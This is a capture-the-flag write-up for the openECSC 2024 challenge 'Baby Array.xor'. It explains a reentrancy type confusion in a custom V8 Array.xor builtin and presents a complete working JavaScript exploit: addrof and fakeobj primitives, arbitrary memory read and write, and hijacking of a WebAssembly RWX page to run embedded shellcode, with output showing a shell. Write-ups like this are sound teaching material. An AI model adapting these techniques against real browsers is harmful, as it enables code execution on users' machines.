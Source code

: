 # openECSC 2024 - Round 3

## [pwn] Baby Array.xor (6 solves)

In case you need to xor doubles...

`nc arrayxor.challs.open.ecsc2024.it 1337`

Author: Vincenzo Bonforte <@Bonfee>

## Overview

The provided v8 patch introduces a new Array builtin `Array.xor` that can be used to xor `PACKED_DOUBLE_ELEMENTS` arrays.
For example:

```text
d8> a = [0.1, 0.2]
[0.1, 0.2]
d8> a.xor(1)
undefined
d8> a
[0.10000000000000002, 0.20000000000000004]
```

To make the challenge easier the v8 sandbox is disabled.

## Solution

The vulnerability consists in a type confusion caused by a reentrancy in the added builtin:

```cpp
BUILTIN(ArrayXor) {
  HandleScope scope(isolate);
  Factory *factory = isolate->factory();
  Handle<Object> receiver = args.receiver();

  if (!IsJSArray(*receiver) || !HasOnlySimpleReceiverElements(isolate, JSArray::cast(*receiver))) {
    THROW_NEW_ERROR_RETURN_FAILURE(isolate, NewTypeError(MessageTemplate::kPlaceholderOnly,
      factory->NewStringFromAsciiChecked("Nope")));
  }

  Handle<JSArray> array = Handle<JSArray>::cast(receiver);
  ElementsKind kind = array->GetElementsKind();

  // [1]
  if (kind != PACKED_DOUBLE_ELEMENTS) {
    THROW_NEW_ERROR_RETURN_FAILURE(isolate, NewTypeError(MessageTemplate::kPlaceholderOnly,
      factory->NewStringFromAsciiChecked("Array.xor needs array of double numbers")));
  }

  // Array.xor() needs exactly 1 argument
  if (args.length() != 2) {
    THROW_NEW_ERROR_RETURN_FAILURE(isolate, NewTypeError(MessageTemplate::kPlaceholderOnly,
      factory->NewStringFromAsciiChecked("Array.xor needs exactly one argument")));
  }

  // Get array len
  uint32_t length = static_cast<uint32_t>(Object::Number(array->length()));

  // Get xor value
  Handle<Object> xor_val_obj;
  // [2]
  ASSIGN_RETURN_FAILURE_ON_EXCEPTION(isolate, xor_val_obj, Object::ToNumber(isolate, args.at(1)));
  uint64_t xor_val = static_cast<uint64_t>(Object::Number(*xor_val_obj));

  // Ah yes, xoring doubles..
  // [3]
  Handle<FixedDoubleArray> elements(FixedDoubleArray::cast(array->elements()), isolate);
  FOR_WITH_HANDLE_SCOPE(isolate, uint32_t, i = 0, i, i < length, i++, {
    double x = elements->get_scalar(i);
    uint64_t result = (*(uint64_t*)&x) ^ xor_val;
    elements->set(i, *(double*)&result);
  });
  
  return ReadOnlyRoots(isolate).undefined_value();
}
```

At `[1]` the code checks that the provided array is of type `PACKED_DOUBLE_ELEMENTS`.  
In this case the `elements` pointer of the array simply contains inline doubles.

```text
// a = [0.1, 0.1, 0.1, 0.1, 0.1]
0x15b000042bd0: 0x0000000a000008a9      0x3fb999999999999a
0x15b000042be0: 0x3fb999999999999a      0x3fb999999999999a
0x15b000042bf0: 0x3fb999999999999a      0x3fb999999999999a
```

At `[2]` the argument passed to the builtin is casted to a number, if a javascript object is passed instead of a number then `Object::ToNumber` will call its `valueOf()` method.  
Using this reentrancy it's possible to change the type of the receiver array and switch it to `PACKED_ELEMENTS`.  
With this map the `elements` array now can contains both SMIs and pointers.  

At `[3]` the builtin will continue to assume that the array map hasn't changed.  
Finally, at `[4]`, the elements content will be xored with the value returned by the `valueOf` method.  

Because of how SMIs and ptrs are represented in the V8 heap this vulnerability allows to easily craft `fakeobj` and `addrof` primitives by simply flipping the last bit of an entry in the `elements` array.

## Exploit

```js
const conv_ab = new ArrayBuffer(8);
const conv_f64 = new Float64Array(conv_ab);
const conv_u64 = new BigUint64Array(conv_ab);

function itof(x) {
    conv_u64[0] = BigInt(x);
    return conv_f64[0];
}

function ftoi(x) {
    conv_f64[0] = x;
    return conv_u64[0];
}

const expl_wasm_code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 4, 1, 96, 0, 0, 3, 3, 2, 0, 0, 5, 3, 1, 0, 2, 6, 42, 7, 127, 0, 65, 128, 8, 11, 127, 0, 65, 128, 8, 11, 127, 0, 65, 160, 14, 11, 127, 0, 65, 128, 8, 11, 127, 0, 65, 160, 142, 4, 11, 127, 0, 65, 0, 11, 127, 0, 65, 1, 11, 7, 130, 1, 10, 6, 109, 101, 109, 111, 114, 121, 2, 0, 17, 95, 95, 119, 97, 115, 109, 95, 99, 97, 108, 108, 95, 99, 116, 111, 114, 115, 0, 0, 4, 102, 117, 110, 99, 0, 1, 1, 103, 3, 0, 12, 95, 95, 100, 115, 111, 95, 104, 97, 110, 100, 108, 101, 3, 1, 10, 95, 95, 100, 97, 116, 97, 95, 101, 110, 100, 3, 2, 13, 95, 95, 103, 108, 111, 98, 97, 108, 95, 98, 97, 115, 101, 3, 3, 11, 95, 95, 104, 101, 97, 112, 95, 98, 97, 115, 101, 3, 4, 13, 95, 95, 109, 101, 109, 111, 114, 121, 95, 98, 97, 115, 101, 3, 5, 12, 95, 95, 116, 97, 98, 108, 101, 95, 98, 97, 115, 101, 3, 6, 10, 138, 1, 2, 3, 0, 1, 11, 131, 1, 0, 65, 128, 8, 66, 170, 213, 170, 213, 170, 213, 170, 213, 170, 127, 55, 3, 0, 65, 128, 8, 66, 184, 223, 204, 195, 134, 128, 228, 245, 9, 55, 3, 0, 65, 136, 8, 66, 200, 130, 131, 135, 130, 146, 228, 245, 9, 55, 3, 0, 65, 144, 8, 66, 200, 138, 188, 145, 150, 205, 219, 245, 9, 55, 3, 0, 65, 152, 8, 66, 208, 144, 165, 188, 142, 146, 228, 245, 9, 55, 3, 0, 65, 160, 8, 66, 177, 236, 199, 145, 141, 146, 228, 245, 9, 55, 3, 0, 65, 168, 8, 66, 184, 247, 128, 128, 128, 128, 228, 245, 9, 55, 3, 0, 65, 176, 8, 66, 143, 138, 192, 132, 137, 146, 228, 245, 9, 55, 3, 0, 11, 0, 201, 1, 9, 112, 114, 111, 100, 117, 99, 101, 114, 115, 1, 12, 112, 114, 111, 99, 101, 115, 115, 101, 100, 45, 98, 121, 1, 69, 65, 110, 100, 114, 111, 105, 100, 32, 40, 49, 49, 51, 52, 57, 50, 50, 56, 44, 32, 43, 112, 103, 111, 44, 32, 43, 98, 111, 108, 116, 44, 32, 43, 108, 116, 111, 44, 32, 45, 109, 108, 103, 111, 44, 32, 98, 97, 115, 101, 100, 32, 111, 110, 32, 114, 52, 56, 55, 55, 52, 55, 101, 41, 32, 99, 108, 97, 110, 103, 105, 49, 55, 46, 48, 46, 50, 32, 40, 104, 116, 116, 112, 115, 58, 47, 47, 97, 110, 100, 114, 111, 105, 100, 46, 103, 111, 111, 103, 108, 101, 115, 111, 117, 114, 99, 101, 46, 99, 111, 109, 47, 116, 111, 111, 108, 99, 104, 97, 105, 110, 47, 108, 108, 118, 109, 45, 112, 114, 111, 106, 101, 99, 116, 32, 100, 57, 102, 56, 57, 102, 52, 100, 49, 54, 54, 54, 51, 100, 53, 48, 49, 50, 101, 53, 99, 48, 57, 52, 57, 53, 102, 51, 98, 51, 48, 101, 99, 101, 51, 100, 50, 51, 54, 50, 41, 0, 44, 15, 116, 97, 114, 103, 101, 116, 95, 102, 101, 97, 116, 117, 114, 101, 115, 2, 43, 15, 109, 117, 116, 97, 98, 108, 101, 45, 103, 108, 111, 98, 97, 108, 115, 43, 8, 115, 105, 103, 110, 45, 101, 120, 116]);
let expl_wasm_mod = new WebAssembly.Module(expl_wasm_code);
let expl_wasm_instance = new WebAssembly.Instance(expl_wasm_mod);

const EMPTY_PROPERTIES_ADDR = 0x725n;
const MAP_JSARR_PACKED_DOUBLES_ADDR = 0x1cb7c5n;

let arr_arbrw = [0.1, 0.2, 0.3];

const FAKE_JSARR_SZ = 2n;
let fake_jsarr = [
    itof((EMPTY_PROPERTIES_ADDR << 32n) | MAP_JSARR_PACKED_DOUBLES_ADDR),
    itof(0x4343434343434343n) // PLACEHOLDER
];

const obj1 = {'a': 0x1337};

class Pwn {
    constructor(arr, val, obj) {
        this._arr = arr;
        this._val = val;
        this._obj = obj;
    }
    valueOf() {
        this._arr[0] = this._obj; // Switch array type to PACKED_ELEMENTS
        return this._val;
    }
}

function addrof(obj) {
    let arr = [0.0, 0.1, 0.3];
    arr.xor(new Pwn(arr, 1, obj));
    return 2*arr[0] + 1;
}

function fakeobj(addr, obj) {
    let arr = [0.0, 0.1, 0.3];
    arr.xor(new Pwn(arr, addrof(obj) ^ addr, obj));
    return arr[0];
}

// Leak 1
let OBJ1_ADDR = addrof(obj1);
console.log("addrof(obj1) = 0x" + OBJ1_ADDR.toString(16));

// Leak 2
let FAKE_JSARR = addrof(fake_jsarr);
let FAKE_JSARR_ELEMENTS = FAKE_JSARR + 0x3c + 8;
console.log("addrof(fake_jsarr) = 0x" + FAKE_JSARR.toString(16));
console.log("addrof(fake_jsarr.elements) = 0x" + FAKE_JSARR_ELEMENTS.toString(16));

// Leak 3
let ARR_ARBRW_ADDR = addrof(arr_arbrw);
console.log("addrof(arr_arbrw) = 0x" + ARR_ARBRW_ADDR.toString(16));

fake_jsarr[1] = itof(((FAKE_JSARR_SZ * 2n) << 32n) | BigInt(ARR_ARBRW_ADDR));

let corrupter_arr = fakeobj(FAKE_JSARR_ELEMENTS, obj1);

function v8_write64(where, what) {
    corrupter_arr[0] = itof((0x6n << 32n) | BigInt(where - 8));
    arr_arbrw[0] = itof(what);
}

function v8_read64(where) {
    corrupter_arr[0] = itof((0x6n << 32n) | BigInt(where - 8));
    return ftoi(arr_arbrw[0]);
}

let wasm_instance_addr = addrof(expl_wasm_instance);
let wasm_data_addr = Number(v8_read64(wasm_instance_addr + 12) & 0xffffffffn);
let rwx_page = v8_read64(wasm_data_addr + 0x30);

console.log("wasm instance addr: 0x"+wasm_instance_addr.toString(16));
console.log("wasm data addr: 0x"+wasm_data_addr.toString(16));
console.log("rwx page: 0x"+rwx_page.toString(16));

v8_write64(wasm_data_addr + 0x30, rwx_page + 0x8afn - 5n);

expl_wasm_instance.exports.func();
```

```text
bonfee@vm $ ./d8 exploit.js
addrof(obj1) = 0x44b2d
addrof(fake_jsarr) = 0x44acd
addrof(fake_jsarr.elements) = 0x44b11
addrof(arr_arbrw) = 0x44aad
wasm instance addr: 0x1d4a71
wasm data addr: 0x200419
rwx page: 0x2cafb02ec000
$ whoami
bonfee
$
